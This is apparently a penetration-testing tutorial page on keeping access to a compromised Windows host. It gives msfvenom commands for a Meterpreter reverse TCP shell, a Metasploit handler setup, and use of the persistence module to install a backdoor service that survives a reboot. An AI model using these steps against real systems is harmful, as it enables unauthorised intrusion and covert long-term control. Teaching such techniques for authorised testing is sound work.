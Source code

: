 # Maintaining Access

### Introduction

There are a quite a few ways to maintain access on a machine or network we will be covering a fairly simple way of maintaining access by first setting up a meterpreter shell and then using the persistence metasploit module allowing us to create a backdoor service in the system that will give us an instant meterpreter shell if the machine is ever shutdown or reset.

There are also other ways of maintaining access such as advanced backdoors and rootkits however those are out of scope for now.

***

### Generating a Payload w/ msfvenom

1. `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe` this will generate a basic windows meterpreter reverse tcp shell
2. Transfer the payload from your attacker machine to the target machine.
3. `use exploit/multi/handler` - this will create a listener on the port that you set it on.
4. Configure our payload to be a windows meterpreter shell: `set payload windows/meterpreter/reverse_tcp`
5. After setting your IP address as your "LHOST", start the listener with run
6. Executing the binary on the windows machine will give you a meterpreter shell back on your host - let's return to that
7. Verify that we've got a meterpreter shell, where we will then `background` it to run the persistence module.

***

### Run the Persistence Module

1. `use exploit/windows/local/persistence` this module will send a payload every 10 seconds in default however you can set this time to anything you want
2. `set session 1` set the session to the session that we backgrounded in meterpreter (you can use the sessions command in metasploit to list the active sessions)&#x20;

<figure><img src="../../../../../../.gitbook/assets/image (163).png" alt=""><figcaption></figcaption></figure>

If the system is shut down or reset for whatever reason you will lose your meterpreter session however by using the persistence module you create a backdoor into the system which you can access at any time using the metasploit multi handler and setting the payload to windows/meterpreter/reverse\_tcp allowing you to send another meterpreter payload to the machine and open up a new meterpreter session.

<figure><img src="../../../../../../.gitbook/assets/image (107).png" alt=""><figcaption></figcaption></figure>

Here you can see the session die however the second we run the handler again we get a meterpreter shell back thanks to the persistence service.

There are other ways of maintaining access such as adding users and rootkits.

***
